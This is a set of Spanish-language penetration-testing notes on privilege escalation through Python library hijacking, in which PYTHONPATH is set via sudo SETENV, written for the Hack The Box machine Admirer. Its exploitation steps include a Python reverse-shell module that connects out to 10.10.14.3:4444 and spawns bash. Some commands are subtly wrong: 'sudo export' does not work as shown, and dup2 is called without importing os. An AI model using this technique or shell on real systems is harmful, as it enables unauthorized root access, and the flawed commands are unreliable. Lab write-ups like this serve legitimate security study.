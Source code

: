 
## DESCRIPTION

Es un tipo de **Python Library Hijacking** en el que cambiamos la variable de entorno de la ruta de la librería. Normalmente editamos directamente la librería que se importa.

Se trata de cambiar la "ruta" donde se encuentran las librerias de python  ` python -c 'import sys; print sys.path'` Es decir cuando un programa en python llama a una librería lo va a buscar en las siguientes rutas:

![[Pasted image 20230225121606.png]]

La idea principal es modificar la variable $PYTHONPATH para establecer una nueva ruta donde buscan las librerias. Una vez modificada la ruta tendremos que crear un script en python que se importe. Mirar ejemplo en EXPLOTACION.

**!!NOTA IMPORTANTE!!** 
Las variables globales DEPENDEN DEL USUARIO, por lo tanto si el script al que queremos secuestrar la librería es root, entonces necesitamos crear la libreria con sudo (root).
Si exportamos la variable con `export PYTHONPATH` este valor no va a ser leido cuando lo ejecutemos con **sudo**.
Por esta razon para que la escalada de privilegios sea correcta tenemos que hacer el export con `sudo` que en este caso es posible por que tenemos en el sudoers `SETENV`

![[Pasted image 20230225121848.png]]

#### Mas información
* https://fmash16.github.io/content/writeups/hackthebox/htb-Admirer.html
* https://0xdf.gitlab.io/2020/09/26/htb-admirer.html
* https://rastating.github.io/privilege-escalation-via-python-library-hijacking/

## EXPLOITATION

1. Comprobamos que tenemos permisos en  `sudo -l` para escribir en las variables de entorno del usuario root SETENV.

![[Pasted image 20230225121848.png]]

2. Comprobamos que no podemos escribir sobre el fichero que importa el script (si pudieramos entonces podríasmos hacer un HIJACKING directamente).

![[Pasted image 20230225121848.png]]

3. Exportamos como sudo la variable PYTHONPATH

```
sudo export PYTHONPATH=/tmp

python -c 'import sys; print sys.path'
```

4. Creamos en esa carpeta un script igual que el que importa, en nuestro caso shutty.py que contenga una reverse shell y nos ponemos ala escucha.

```
#Reverse shell shutty.py

import pty
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.3",4444))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()

```

## MACHINES

* Hack The Box: Admirer
